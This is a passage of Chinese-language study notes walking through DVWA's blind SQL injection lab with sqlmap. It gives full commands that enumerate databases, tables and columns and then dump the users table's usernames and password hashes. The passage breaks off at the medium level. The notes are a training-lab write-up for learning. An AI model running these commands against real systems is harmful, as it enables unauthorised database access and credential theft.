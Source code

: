 ![截图录屏_选择区域_20210127152012](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127152012.png)

2.抓包查看信息

![截图录屏_选择区域_20210127152418](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127152418.png)

3.使用sqlmap，查找注入点

![截图录屏_选择区域_20210127152632](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127152632.png)

4.获取数据库

```
D:\sqlmap>sqlmap.py -u "192.168.120.129/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie "security=low; PHPSESSID=prasunu4qhs3eutb08uj24r3p0" --batch --dbs
```

![截图录屏_选择区域_20210127152837](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127152837.png)

5.在dvwa库中获取数据表

```
D:\sqlmap>sqlmap.py -u "192.168.120.129/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie "security=low; PHPSESSID=prasunu4qhs3eutb08uj24r3p0" --batch -D dvwa --tables
```

6.在users表中获取列

```
D:\sqlmap>sqlmap.py -u "192.168.120.129/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie "security=low; PHPSESSID=prasunu4qhs3eutb08uj24r3p0" --batch -D dvwa -T users --columns
```

![截图录屏_选择区域_20210127153156](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127153156.png)

7.获取user和password的信息

```
D:\sqlmap>sqlmap.py -u "192.168.120.129/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie "security=low; PHPSESSID=prasunu4qhs3eutb08uj24r3p0" --batch -D dvwa -T users -C user,password --dump
```

![截图录屏_选择区域_20210127153644](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127153644.png)

### medium

1.medium级别是下拉框

![截图录屏_选择区域_20210127153735](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127153735.png)

2.抓包查看信息

![截图录屏_选择区域_20210127153858](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127153858.png)

3.使用sqlmap，查找注入点
